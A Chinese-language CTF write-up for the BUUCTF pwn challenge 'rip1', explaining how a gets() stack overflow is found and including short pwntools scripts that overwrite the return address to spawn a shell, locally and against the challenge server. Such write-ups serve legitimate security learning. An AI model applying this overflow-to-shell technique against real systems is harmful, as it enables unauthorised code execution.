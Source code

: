 ```yaml
---
title: rip1
author: Stan
date: 2020-09-17 19:00:33 +0800
categories: [BUUCTF,BUUCTF-Pwn]
tags: [Pwn]
---
```


## 过程

先`checksec`，发现保护都没开

![2020-09-17_15-09-45](/assets/img/posts/2020-09-17_15-09-45.png)

打开`IDA64`

搜索字符串，发现**/bin/sh**

查交叉引用，最后发现这里![2020-09-17_19-15-52](../assets/img/posts/2020-09-17_19-15-52.png)

system也有了，根据题目名字，只要栈溢出，rip覆盖成40118A就行了

![image-20200917192213258](/assets/img/posts/image-20200917192213258.png)

很明显gets函数没有限制输入，存在溢出点

![image-20200917192549256](/assets/img/posts/image-20200917192549256.png)

之后查看栈，发现只要覆盖15+8就可以了

## Exploit

````python
from pwn import *

a=process('./pwn1')

a.recvuntil("please input")

a.sendline(b"a" * 23 + p64(0x40118A))

a.interactive()
````

这是本地调试，非常成功，但是跑remote会无反应

怀疑是服务器文件和下发的文件不同，需要猜测代码

先nc过去查看程序逻辑

![image-20200917194052156](/assets/img/posts/image-20200917194052156.png)

应该就是把puts和gets的位置反了一下，调整一下exp

````python
from pwn import *

a=remote('node3.buuoj.cn',27250)

a.sendline(b"a" * 23 + p64(0x40118A))

a.interactive()
````

因为顺序反了，所以直接send就行

![image-20200917194310546](/assets/img/posts/image-20200917194310546.png)

得到flag